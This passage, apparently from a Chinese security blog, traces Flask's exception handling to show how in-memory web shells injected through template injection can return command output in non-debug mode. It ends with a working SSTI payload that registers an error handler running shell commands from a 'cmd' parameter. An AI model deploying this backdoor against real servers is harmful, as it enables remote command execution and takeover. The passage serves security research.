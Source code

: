 ##### 2.1.4 方法四
老外写的这个挺骚的，但是没有找到回显的地方，看了下的他的实现思路，感觉可以找一个能爆出参数值的异常的函数去搞。__code__：表示编译后的函数体的代码对象。可以用来调用函数
```python
lambda :  type(lambda:0)(type((lambda:0).func_code)(
  1,1,1,67,'|\0\0\202\1\0',(),(),('x',),'','',1,''),{}
)(Exception())
```
```python
lambda : type(lambda: 0)(type((lambda: 0).__code__)(
    1,0,1,1,67,b'|\0\202\1\0',(),(),('x',),'','',1,b''),{}
)(Exception())

lambda : type(lambda: 0)(type((lambda: 0).__code__)(
    1,0,1,1,67,b'|\0\202\1',(),(),('x',),'','',1,b''),{}
)(Exception)
```
#### 2.2 非Debug模式
##### 2.2.1 注册路由
参照上面
##### 2.2.2 反弹shell
##### 2.2.3 异常处理
如果在无回显的非 Debug 模式下依然使用抛出异常的方法的会发现页面返回的是`500`错误。从 Flask 的处理流程里看，首先会在`**wsgi_app()**`自动推送请求上下文，接着调用`full_dispatch_request()`分派请求，并在此基础上执行请求预处理和后处理以及 HTTP 异常捕获和错误处理。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717847940813-a8866a2d-1115-4c6b-a6b2-c4ad890751ea.png#averageHue=%231f2125&clientId=u8309ad53-fa41-4&from=paste&height=512&id=ucae21af1&originHeight=640&originWidth=984&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=89537&status=done&style=none&taskId=u9d31e5fa-b69d-4357-ab48-8f3e5f185dc&title=&width=787.2)
这里对处理请求的过程进行了异常包裹，如果出现异常，会将异常传递给`handle_exception()`，在官方的解释为_处理没有关联错误处理程序的异常，或者从错误处理程序引发的异常。这总是会导致 _`_500_`_。_同时还有如下说明：
> Flask will suppress any server error with a generic error page unless it is in debug mode. As such to enable just the interactive debugger without the code reloading, you have to invoke [run()](https://flask.palletsprojects.com/en/3.0.x/api/#flask.Flask.run) with debug=True and use_reloader=False. Setting use_debugger to True without being in debug mode won’t catch any exceptions because there won’t be any to catch.
Flask 将使用通用错误页面抑制任何服务器错误，除非处于调试模式。因此，要仅启用交互式调试器而不重新加载代码，您必须使用 debug=True 和 use_reloader=False 调用 **run()** 。在不处于调试模式的情况下将 use_debugger 设置为 True 不会捕获任何异常，因为不会捕获任何异常。

这也说明了为什么能够在 Debug 模式会有非`500`的异常回显。先看一下如果是一个`404`错误在 Flask 中是如何处理的。在 `app.py`中最后断点，这里是由 werkzeug 调用的。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717848198698-628c9e4d-1d63-492e-89aa-8acc47d48c5c.png#averageHue=%23202126&clientId=u8309ad53-fa41-4&from=paste&height=157&id=u7e1d46d4&originHeight=196&originWidth=962&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=33161&status=done&style=none&taskId=ufec64663-e51e-4a65-a8ef-d446a154264&title=&width=769.6)
从`wsgi_app()`进入到`full_dispatch_request()`中，这里调用了`preprocess_request()`预处理请求函数，同时也是在这个函数里实现了利用`@app.url_value_preprocessor`路由来作为内存马的方法，也就是这个调用中内存马抛出了异常。出现异常后会直接调用`handle_user_exception()`函数来进行处理。
> **handle_user_exception**(_e_)
处理用户异常(e) ¶
每当发生需要处理的异常时，就会调用此方法。一个特殊情况是 **HTTPException** ，它被转发到 **handle_http_exception()** 方法。此函数将返回响应值或使用相同的回溯重新引发异常。

![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717848544633-30a3850d-1449-4606-b4e9-211260d580bc.png#averageHue=%231f232a&clientId=u8309ad53-fa41-4&from=paste&height=384&id=u992da40c&originHeight=480&originWidth=1044&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=76595&status=done&style=none&taskId=uc4dc6a14-b8db-49c0-90c7-45d1a3df920&title=&width=835.2)
可以看到这个时候触发的异常是`<NotFound '404: Not Found'>`，如果是利用内存马来抛出的异常的话就是
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717849003724-9aea12d3-f552-44c6-b517-face77a506c1.png#averageHue=%23202632&clientId=u8309ad53-fa41-4&from=paste&height=183&id=u3a176b50&originHeight=229&originWidth=1829&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=47208&status=done&style=none&taskId=ucca631ce-493e-4f7d-b4f7-6c28fc69b3c&title=&width=1463.2)
接着进入到用户异常处理函数，这里先判断异常是否为`HTTPException`，如果是的话就使用`handle_http_exception()`处理否则会去查找有没有为这个异常定义处理函数，如果没有就会抛出。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717848730966-c362c46a-0da1-4690-b57e-419aa305b9aa.png#averageHue=%231f2127&clientId=u8309ad53-fa41-4&from=paste&height=649&id=u52ba944b&originHeight=811&originWidth=1112&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=120067&status=done&style=none&taskId=uf3537fa9-0af3-4fc2-8b0f-878044c4e75&title=&width=889.6)
其实跟到这里就有一些找到回显的方法了，一个是为内存马抛出的异常定义处理函数，一个就是定义内存马抛出的异常类型。
比如这样实现，在为`500`错误注册了处理函数后，通过通过在非 Debug 模式下抛出异常。啊，一点都不优雅
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app.error_handler_spec[None][500][app._get_exc_class_and_code(500)[0]] = lambda c: __import__('os').popen(request.args.get('cmd')).read() if 'cmd' in request.args.keys() else c;
app.url_value_preprocessors[None].append(lambda ep, args: (_ for _ in ()).throw(Exception) if 'cmd' in request.args.keys()  else None)
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}
```
